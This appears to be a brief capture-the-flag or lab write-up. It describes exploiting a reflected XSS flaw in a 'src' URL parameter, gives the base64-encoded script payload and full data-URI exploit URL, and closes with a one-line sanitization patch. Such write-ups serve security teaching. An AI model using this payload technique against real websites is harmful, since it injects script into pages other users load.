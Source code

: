 ## XSS Injection on URL

If we clic on nsa image, we can see the src in the url, and try to exploit it,
Direct injection don't work so we use base64 to test a classique : 
```<script>alert('XSS')</script>```
in base64 : ```PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=```
```http://x.x.x.x/index.php?page=media&src=src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=```

## Patch 
Use library to check user input and sanitize the data...
